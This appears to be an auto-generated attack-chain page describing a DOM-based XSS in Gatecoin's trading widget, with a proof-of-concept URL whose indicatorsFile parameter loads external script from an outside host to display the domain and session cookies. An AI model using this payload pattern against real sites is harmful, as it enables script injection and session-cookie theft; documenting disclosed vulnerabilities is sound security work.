

# DOM-based XSS in Gatecoin Trading Widget via IndicatorsFile Parameter

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~1 minute |
| Skill Level | Beginner |
| Complexity | Low |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- [[tools/Browser]]

### Target Environment

- Web platform
- Access to Gatecoin's trading widget page
- No specific services or ports required beyond standard HTTPS (443)

### Initial Access Requirements

- No credentials needed
- Direct network access to https://gatecoin.com
- Victim must visit the crafted URL

## Detailed Attack Procedures

### Step 1: Trigger DOM-based XSS
procedure: [[procedures/Exploit-DOM-XSS-in-Gatecoin-Charting-Library]]

**Objective**: Load a malicious external JavaScript file via the 'indicatorsFile' parameter to execute arbitrary code in the browser context of the Gatecoin domain.

**Instructions**: Craft a malicious URL by appending the hash parameter to the vulnerable page. Use a controlled external script host (e.g., blackfan.ru) hosting a proof-of-concept JavaScript file that alerts document.domain and document.cookie. Open the URL in a browser to trigger the load and execution.

The vulnerable URL structure is: https://gatecoin.com/widget-trade/assets/charting_library/static/tv-chart.html#indicatorsFile=//blackfan.ru/tv-chart-poc&disabledFeatures=[]&enabledFeatures=[]

Replace //blackfan.ru/tv-chart-poc with your own hosted malicious script URL if testing ethically.

**Expected Output**: The page loads the charting library, fetches and executes the external script, resulting in an alert popup displaying the domain and cookies.

**Success Indicators**:
- Alert box appears showing 'gatecoin.com' as document.domain
- Alert box reveals session cookies, confirming code execution in the site's context
- Browser console logs any additional script output from the injected JS

## Attack Chain Summary

### Key Achievements

1. Successful injection and execution of arbitrary JavaScript in the Gatecoin domain context
2. Demonstration of client-side data theft potential, such as session cookies
3. Highlighting lack of validation in jQuery's $.getScript usage for external file loading

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
